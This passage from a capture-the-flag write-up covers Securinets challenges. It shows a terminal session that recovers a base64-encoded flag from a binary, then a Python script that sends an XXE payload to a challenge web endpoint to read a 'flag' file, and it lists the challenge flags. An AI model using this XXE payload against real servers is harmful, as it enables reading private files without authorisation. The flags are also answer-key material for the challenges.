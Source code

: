 ```
localhost@red:~/Desktop/ctf/contact_DONE$ echo -n securinets | base64
c2VjdXJpbmV0cw==
localhost@red:~/Desktop/ctf/contact_DONE$ strings contact_me | grep c2VjdXJpbmV
;c2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3ZDA3NTcxNX0
;c2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3ZDA3NTcxNX0
dard:EMailAddress=c2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3NTcxNX0))
99A6BBB6-1B74-4A6C-AB18-EBC9B59FDD9Bc2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3ZDA3NTcxNX0
07732B66-AC7F-496B-94BC-115B270C56AEc2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3ZDA3NTcxNX0
D6174D25-1598-4963-9BE4-6BB56B4EB4ECc2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3ZDA3NTcxNX0
;c2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3ZDA3NTcxNX0
DF_L_A_g: c2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3ZDA3NTcxNX0
DF_L_A_g: c2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZT
?gj: c2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzY
^C
localhost@red:~/Desktop/ctf/contact_DONE$ echo c2VjdXJpbmV0c3szMTAxMmUxNmMzZTVkZmE3ZTY3MzYxMmQ3ZDA3NTcxNX0 | base64 -d
securinets{31012e16c3e5dfa7e673612d7d075715}base64: invalid input
```

FLAG: securinets{31012e16c3e5dfa7e673612d7d075715}

---

## Feedback (Web)

```python
import requests

payload = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [
<!ENTITY xxe SYSTEM "flag">
]>
<feedback>
<author>&xxe;</author>
<email>b</email>
<content>c</content>
</feedback>"""

url = "https://web2.ctfsecurinets.com/feed.php"

r = requests.post(url, data = payload)

print(r.text)

```

FLAG: Securinets{Xxe_xXE_@Ll_Th3_W@Y}

---

## Welcome (pwn)
